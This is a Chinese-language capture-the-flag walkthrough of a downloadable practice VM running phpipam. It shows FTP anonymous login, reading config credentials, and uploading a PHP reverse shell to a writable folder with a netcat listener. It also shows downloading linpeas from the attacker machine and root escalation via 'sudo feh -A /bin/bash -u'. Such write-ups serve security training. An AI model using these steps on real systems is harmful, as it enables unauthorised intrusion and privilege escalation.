## 靶机地址

https://mega.nz/file/z99ByIpa#HPylwxHNwmXHFc71JnolvZw6T2tzbLj1JVSCOi8YnB4




## 信息收集

### 准备阶段

创建文件夹用来存放信息

```
mkdir report
```


###  主机探测

```
arp-scan --interface=vboxnet0 -l
nmap -sn 192.168.56.0/241
```




确定靶机ip：192.168.56.112


#### 端口扫描

```
nmap -sT -p- --min-rate 10000 192.168.56.112 -oN ./report/portscan
```




开放了ftp和http服务


#### 提取端口信息

```
cat ./report/portscan  | grep open | awk -F'/' '{print $1}' | paste -sd,
```




#### 详细结果扫描

```
sudo nmap -sCV -O -p 21,80 192.168.56.112 -oN ./report/detail
```



分析扫描结果

- 21 ftp ，虽然报告中没有明确指出是否可以匿名登陆。但是可以尝试一下

- 80 http


#### udp扫描

```
sudo nmap -sU --top-ports 20 192.168.56.112
```




### fscan扫描

```
fscan -h 192.168.56.112
```




### 21端口

#### 尝试匿名登陆

```
lftp 192.168.56.112 -u anonymous
```




空密码登陆失败

但是anonymous：anonymous登陆成功


结合扫描结果，该靶机开放了80端口

#### 进入/var/www/html

```
cd /var/www/html
cd phpipam
ls
```




存在phpipam CMS，同时存在config.php文件

#### 查看配置文件

```
cat config.php
```







#### 得到了两个账号

```
phpipam:phpipmadmin
USERNAME:PASSWORD
```


然后继续翻



在phpipam/app/admin下有一个import-export目录

而其中的upload文件夹有777的权限


也就是我们可以尝试上传webshell

#### 上传reverse_shell文件

```
cd upload
put reverse_shell.php
ls
```




此时我们可以看到默认权限为600，即只有anonymous用户可读，因此需要修改其权限以确保web端可以访问

```
chmod 777 reverse_shell.php
ls
```




### 本地监听

```
sudo nc -lvp 283
```




### 然后直接在web端访问reverse_shell.php

```
http://192.168.56.112/phpipam/app/admin/import-export/upload/reverse_shell.php
```




成功连接


## 提权

### 查看flag

```
cd /home
ls
cd italia
ls
cat user.txt
```




权限不足


```
ls -al
```




pazz.php和user.txt都是不可读的


### 上传linpeas.sh

### 本地开启http服务

```
python -m http.server 9000
```




### 下载

```
cd /tmp
wget 192.168.56.1:9000/linpeas.sh
```




### 运行脚本

```
bash linpeas.sh
```





然后发现了一个奇怪的端口 12345


### nc连接

```
which nc
nc 127.0.0.1 12345
```



靶机中存在nc， 尝试nc连一下

连接后随便输入点东西，存在回显


观察内容发现其是重复输出，去重后cyberchef解码后得到png图片

### base64转图片




提示rootisCLOSE,可能是密码



然后aes-256-cbc加密


### 转换终端

```
/bin/bash -i
```




### 然后尝试切换为italia用户

```
su - italia
```




### 再次转换终端

```
/bin/bash -i
```




### 执行sudo -l

```
sudo -l
```




### feh提权

feh是一个图片查看器

本地看一下能不能尝试执行命令

```
man feh
```




发现其-A参数可以用来执行命令


靶机中尝试

```
sudo feh -A id
```



报错，不能打开X display

然后继续查看帮助信息



-U参数可以实现不打开图片，只输出信息


但是我尝试了一下

```
sudo feh -A id -U
```



没有执行命令


然后我看了靶机上的feh帮助信息



发现该版本是 -u


```
sudo feh -A id -u
```



成功执行


### 尝试执行/bin/bash

```
sudo feh -A /bin/bash -u
whoami
```



成功提权


### 进入/root

```
/bin/bash -i
cd /root
ls
```




发现flag被加密


结合png中给出的提示，可能是aes-256-cbc


### 查看靶机中是否有openssl

```
which openssl
```




### 利用openssl解密

```
openssl enc -d -aes-256-cbc -in root.enc -out root.txt
cat root.txt
```




### 得到flag


```
cat /home/italia/user.txt
```


